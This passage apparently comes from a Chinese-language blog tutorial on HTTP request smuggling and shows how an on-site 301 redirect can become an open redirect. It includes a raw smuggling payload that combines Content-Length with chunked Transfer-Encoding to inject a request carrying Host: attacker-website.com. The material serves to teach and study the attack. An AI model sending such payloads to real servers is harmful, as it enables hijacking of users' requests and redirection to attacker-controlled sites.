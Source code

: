 [![](assets/1698897445-fdfe2f44aaf9c9560c24cef93ac97378.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191125001149.png)

### Turn An On-Site Redirect Into An Open Redirect

这种攻击场景是在目标在使用 30x 跳转的时候，使用了 Host 头进行跳转，例如在 Apache & IIS 服务器上，一个 uri 最后不带 / 的请求会被 30x 导向带 / 的地址，例如发送以下请求：

```plain
GET /home HTTP/1.1
Host: normal-website.com
```

我们会得到 Response :

```plain
HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

看起来没什么危害，但是如果我们配合 HTTP Smuggling 就会有问题了，例如：

```plain
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```
